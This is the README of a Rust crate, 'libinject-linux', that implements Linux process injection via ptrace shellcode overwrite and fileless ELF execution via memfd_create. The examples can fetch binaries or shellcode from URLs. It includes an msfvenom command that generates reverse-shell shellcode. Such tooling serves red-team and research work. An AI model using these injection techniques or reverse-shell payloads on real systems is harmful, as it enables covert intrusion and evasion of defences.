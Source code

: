 # libinject-linux

`libinject-linux` is a Rust crate containing implementations for process injection and fileless ELF execution techniques on Linux.

## Functionality
The following techniques are currently implemented:
- Using [memfd_create(2)](https://man7.org/linux/man-pages/man2/memfd_create.2.html) to create an anonymous file in memory, write an ELF to it, and then execute.
- Using [ptrace(2)](https://man7.org/linux/man-pages/man2/ptrace.2.html) to stop a forked process, overwrite its RIP register with shellcode, and then resume it.

## Usage
### Library
Add `libinject-linux` as a dependency to your Rust project
```bash
cargo add --git https://github.com/dustyw0lf/libinject-linux.git libinject
```

### Library examples
>[!note]
>The examples can take binaries or shellcode from either URLs or filesystem paths.

Clone the repo
```bash
git clone https://github.com/dustyw0lf/libinject-linux.git
```

Run the `memfd` example
```bash
cargo run --example memfd
```

To run the `hollow` example, first `cd libinject-linux/libinject/examples` and then
```bash
cargo run --example hollow
```

The example shellcode was generated using the following command
```bash
msfvenom --payload 'linux/x64/shell_reverse_tcp' LHOST=127.0.0.1 LPORT=1234 --format 'raw' --platform 'linux' --arch 'x64' --out shellcode.bin
```

### Standalone Binary
TODO: Write docs for standalone binary.
